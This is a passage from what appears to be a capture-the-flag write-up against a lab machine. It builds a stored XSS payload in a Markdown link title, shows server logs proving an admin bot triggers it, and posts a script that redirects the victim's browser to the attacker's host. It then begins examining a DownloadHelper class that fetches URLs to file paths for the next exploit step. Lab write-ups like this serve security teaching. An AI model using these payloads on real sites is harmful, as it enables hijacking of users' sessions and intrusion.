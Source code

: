 
Characters like `'"()` all throw off the Markdown tag, so I’ll encode them. On
sending that as the title, a few minutes later there was a hit on my Python
webserver:

    
    
    10.10.10.217 - - [25/Apr/2021 17:05:12] code 404, message File not found
    10.10.10.217 - - [25/Apr/2021 17:05:12] "GET /0xdf.png HTTP/1.1" 404 -
    

That proves not only that there is a user (or really some kind of automation)
checking the admin page, but that the exploit works.

I’ll next try to convert that to a script tag, and prove to myself it works by
trying to get it to request something from my VM. For this testing, it was
easier to work out of a Python script to save what I was trying.

I couldn’t get `<script src='[url of my host]'></script>` to work. I also
couldn’t get an `XMLHttpRequest` to my host to work. I _think_ that’s a Same
Origin policy issue. I was able to redirect the page to my webserver by
setting `window.location`:

    
    
    xss_payload = {"json":"{\"title\":\"[XSS](javascript: document.write%28%22<script>window.location = 'http://10.10.14.15/location';</script>%22%29)\",\"flavor\":\"bacon\",\"color\":\"#FFF\",\"description\":\"\"}"}
    resp = requests.post(f'https://{target}/requests', json=xss_payload, headers=headers, verify=False)
    print(resp.text)  
    

I had to use encoding for characters like `()"` as `%28`, `%29`, and `%22`
respectively order for it not close out something prematurely. I was also able
to write a `<script>` tag that had JavaScript in it and would run.

### File Upload

At this point there’s one more piece I need to complete this exploit. There’s
a `DownloadHelper.cs` file in the source root. It defines a single class,
`DownloadHelper`, which has public functions to set `URL` and `FilePath`, and
on setting each, the private `Download` function is called, which gets a file
from `URL` and saves it at `FilePath` (with a slight modification).

    
    
    public class DownloadHelper
    {
        private String _URL;
        private String _FilePath;
        public String URL
        {
            get { return _URL; }
            set
            {
                _URL = value;
                Download();
            }
        }
        public String FilePath
        {
            get { return _FilePath; }
            set
            {
                _FilePath = value;
                Download();
            }
        }
    